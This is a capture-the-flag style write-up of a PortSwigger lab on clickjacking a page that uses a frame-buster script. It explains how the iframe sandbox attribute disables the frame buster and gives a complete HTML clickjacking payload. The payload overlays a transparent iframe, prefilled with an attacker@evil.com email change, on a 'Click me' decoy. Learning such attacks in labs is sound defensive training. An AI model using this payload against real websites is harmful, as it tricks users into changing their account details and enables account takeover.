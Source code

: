 # Clickjacking with a frame buster script | Jan 2, 2023

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/clickjacking/lab-frame-buster-script), you'll learn: Clickjacking with a frame buster script! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab is protected by a frame buster which prevents the website from being framed. Can you get around the frame buster and conduct a [clickjacking attack](https://portswigger.net/web-security/clickjacking) that changes the users email address?

To solve the lab, craft some HTML that frames the account page and fools the user into changing their email address by clicking on "Click me". The lab is solved when the email address is changed.

You can log in to your own account using the following credentials: `wiener:peter`

## Exploitation

**Login as user `wiener`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Clickjacking/Clickjacking-3/images/Pasted%20image%2020230102054510.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Clickjacking/Clickjacking-3/images/Pasted%20image%2020230102054521.png)

**View source page:**
```html
<div id=account-content>
    <p>Your username is: wiener</p>
    <p>Your email is: wiener@normal-user.net</p>
    <form class="login-form" name="change-email-form" action="/my-account/change-email" method="POST">
        <label>Email</label>
        <input required type="email" name="email" value="">
        <script>
        if(top != self) {
            window.addEventListener("DOMContentLoaded", function() {
                document.body.innerHTML = 'This page cannot be framed';
            }, false);
        }
        </script>
        <input required type="hidden" name="csrf" value="I0MsiFo62jqwQWve8ihfuOe1milL4ixH">
        <button class='button' type='submit'> Update email </button>
    </form>
</div>
```

In here, we see a JavaScript code is **checking the current application window is the main or top window.**

**If it's not on the top window, the application rejects and not allow to be framed.** This technique is called "Frame busting".

**To bypass that, we can use the HTML5 iframe `sandbox` attribute:**
```html
<iframe id="victim_website" src="https://victim-website.com" sandbox="allow-forms"></iframe>
```

When this is set with the `allow-forms` or `allow-scripts` values and **the `allow-top-navigation` value is omitted then the frame buster script can be neutralized as the iframe cannot check whether or not it is the top window.**

Armed with above information, we can **create a fake website that fools the user into changing their email address** by clicking on "Click me".

First, we need to **prepopulate the email addres**.

**To do so, we can provide a GET parameter: `email`.**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Clickjacking/Clickjacking-3/images/Pasted%20image%2020230102055156.png)

**Then, we can crafte a fake website manually:**
```html
<html>
    <head>
        <title>Clickjacking with a frame buster script</title>
        <style type="text/css">
            #targetWebsite {
                position:relative;
                width:700px;
                height:700px;
                opacity:0.0001;
                z-index:2;
            }

            #decoyWebsite {
                position:absolute;
                top:450px;
                left:75px;
                z-index:1;
            }
        </style>
    </head>
    <body>
        <div id="decoyWebsite">Click me</div>
        <iframe id="targetWebsite" src="https://0a42009803148543c6bc3f00000d00f0.web-security-academy.net/my-account?email=attacker@evil.com" sandbox="allow-forms"></iframe>
    </body>
</html>
```

**Finally, go to exploit server to host the payload, and deliver to victim:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Clickjacking/Clickjacking-3/images/Pasted%20image%2020230102060724.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Clickjacking/Clickjacking-3/images/Pasted%20image%2020230102060729.png)

Nice!

# What we've learned:

1. Clickjacking with a frame buster script